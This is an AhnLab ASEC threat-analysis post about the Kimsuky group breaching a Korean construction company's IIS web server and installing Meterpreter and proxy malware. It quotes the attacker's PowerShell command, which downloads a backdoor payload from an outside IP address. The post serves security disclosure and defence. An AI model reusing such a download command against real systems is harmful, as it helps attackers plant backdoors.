 











 

Malware Information
AhnLab Detection
Statistics
Response Guide
AhnLab
 














Posted By Sanseo  , May 22, 2023 

Kimsuky Group Using Meterpreter to Attack Web Servers 
AhnLab Security Emergency response Center (ASEC) has recently discovered the distribution of malware targeting web servers by Kimsuky group. Kimsuky is a threat group deemed supported by North Korea and has been active since 2013. At first, they attacked North Korea-related research institutes in South Korea before attacking a Korean energy corporation in 2014. Since 2017, their attacks have been targeting countries other than South Korea as well. [1]
ASEC has been providing the analysis of various cases of Kimsuky attacks on the ASEC Blog, mainly spear phishing attacks which involved malicious file attachments to emails in MS Office document files[2],  OneNote [3], or CHM [4]file formats. Kimsuky group usually uses social engineering attacks like the aforementioned spear phishings, but this post will cover the attack cases that targeted web servers. After a successful breach, Kimsuky installed the Metasploit Meterpreter backdoor malware. There have also been identified logs of a proxy malware developed in GoLang being installed.

Attack Cases Targeting IIS Web Servers

The attack target was a Windows IIS web server of a Korean construction company and is thought to have a vulnerability not applied or be inadequately managed. The threat actor breached the IIS web server and executed a Powershell command. The following is a log from AhnLab Smart Defense (ASD) which shows w3wp.exe, a Windows IIS web server process, using Powershell to download an additional payload from outside.

Figure 1. Log of IIS web server process executing a Powershell command
The executed Powershell command is as follows, and the downloaded “img.dat” file is a backdoor malware also known as Metasploit Meterpreter.
> powershell.exe invoke-webrequest -uri “hxxp://45.58.52[.]82/up.dat” -outfile “c:\programdata\img.dat”
Afterward, the threat actor used Meterpreter to install proxy malware additionally. Powershell command was used here as well.
Figure 2. Proxy malware installed by Meterpreter
